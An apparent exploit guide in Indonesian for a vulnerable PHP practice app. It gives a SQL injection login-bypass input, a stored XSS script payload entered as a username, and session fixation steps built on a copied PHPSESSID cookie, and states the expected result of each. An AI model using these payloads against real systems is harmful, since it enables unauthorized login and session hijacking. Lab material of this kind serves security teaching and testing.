 # Panduan Exploit

1. **SQL Injection**
   ```
   username: ' OR 1=1 --
   password: asdf
   ```
   Harus masuk tanpa kredensial valid.

2. **XSS**
   Daftarkan username:
   ```
   <script>alert(1)</script>
   ```
   Setelah login, alert muncul di home.php.

3. **Session Fixation**
   - Copy cookies `PHPSESSID` sebelum login.
   - Login sebagai user lain dari tab berbeda dengan cookie tersebut.
   - Tab pertama akan terautentikasi sebagai user tersebut.

